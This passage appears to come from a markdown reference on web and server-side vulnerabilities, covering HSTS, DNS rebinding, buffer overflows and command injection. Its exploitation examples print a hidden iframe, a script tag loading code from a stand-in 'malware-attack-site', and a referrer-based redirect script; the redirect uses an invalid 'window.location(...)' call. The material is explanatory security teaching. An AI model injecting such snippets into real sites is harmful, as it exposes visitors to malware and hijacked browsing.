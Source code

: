 ### Attempts of mitigation:

* [Strict transport security](http://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security):  The approach allows any site to instruct the browser that all future requests made to a particular hostname or domain should always use HTTPS and that any HTTP traffic should be automatically upgraded and submitted over  HTTPS.


----
## Network Fenceposts

When websites let the browser to interact with destinations not directly accessible to the attacker, for example, with the systems on a victim's internal networks. This attack can be performed with help of [DNS rebinding](http://en.wikipedia.org/wiki/DNS_rebinding).

### Attempts of mitigation:

* Internet Explorer implements the zone model, a potential approach to the risk.



---

# Vulnerabilities in the Server-Side

## Buffer Overflow

In low-level languages such as C or C++, buffer overflow happens when a program allows more information to be stored in a particular memory region than there is space to accommodate the incoming data, leading to the unexpected overwrite of other vital data structures.

---
## Command Injection (SQL, PHP, Shellcode)

Due to insufficient input filtering or output escaping, an attacker-controlled strings may be processed as statements in an interpreted language used by the application.

### Examples of exploitation:

* Malicious code injections in an iframe to the attack site:
```
<iframe frameborder="0" height="0" src="http://<attack-site>/path/file" style="display:none" width="0"></iframe>
```

* JavaScript or another scripting language that calls and runs scripts from an attack site:

```
<script type='text/javascript' src='http://malware-attack-site/js/x55.js'></script>
```

* Scripts that redirects the browser to an attack site:
```
<script>
  if (document.referrer.match(/google\.com/)) {
    window.location("http://malware-attack-site/");
  }
</script>
```
